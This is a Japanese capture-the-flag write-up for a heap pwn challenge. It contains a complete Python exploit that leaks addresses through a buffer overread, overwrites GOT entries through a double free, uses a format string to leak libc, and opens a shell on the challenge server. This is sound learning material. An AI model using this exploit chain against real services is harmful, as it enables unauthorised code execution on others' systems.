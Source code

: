 # [pwn 493pts] USER ADMINISTRATION - Rooters CTF
64ビットでRELRO以外有効です。
```
$ checksec -f vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols     Yes      0               4       vuln
```
ヒープ系問題です。ヒープの方にはdouble freeがありますが、read系関数はありません。一方sendmsgにbuffer overreadがあるので、これを使ってlibc leakしました。
libcは配られていませんが、サーバー側で適当にdouble freeしても落ちなかったのでlibc-2.27と予想して、GOT overwriteで終了です。
```python
from ptrlib import *
import time

def create(age, name):
    sock.sendlineafter(": ", "0")
    sock.sendlineafter(": ", str(age))
    sock.sendafter(": ", name)
    return

def edit(age, name):
    sock.sendlineafter(": ", "1")
    sock.sendlineafter(": ", str(age))
    sock.sendafter(": ", name)
    return

def delete():
    sock.sendlineafter(": ", "2")
    return

def sendmsg(msg):
    sock.sendlineafter(": ", "3")
    sock.sendafter(": \n", msg)
    sock.recvuntil(": \n")
    return sock.recvline()

libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
elf = ELF("./vuln")
#sock = Process("./vuln")
sock = Socket("34.69.116.108", 3333)

# leak proc base
sendmsg('A' * 8)
proc_base = u64(sendmsg('A' * 0x10)[0x10:]) - 0x20fa
logger.info("proc base = " + hex(proc_base))
assert proc_base > 0

# GOT overwrite
create(10, "TARO")
delete()
sendmsg(p64(proc_base + elf.got("puts")))
edit(10, p64(proc_base + elf.plt("printf")))

# leak libc base
sock.sendlineafter(": ", "3")
sock.sendlineafter(": ", "%31$p")
sock.recvuntil(": ")
libc_base = int(sock.recvline(), 16) - libc.symbol("__libc_start_main") - 0xe7
logger.info("libc base = " + hex(libc_base))

# GOT overwrite
edit(10, p64(libc_base + libc.symbol("system")))

# get the shell!
time.sleep(0.5)
sock.sendline("3")
time.sleep(0.5)
sock.sendline("/bin/sh")

sock.interactive()
```

# 感想
libc配ったら......？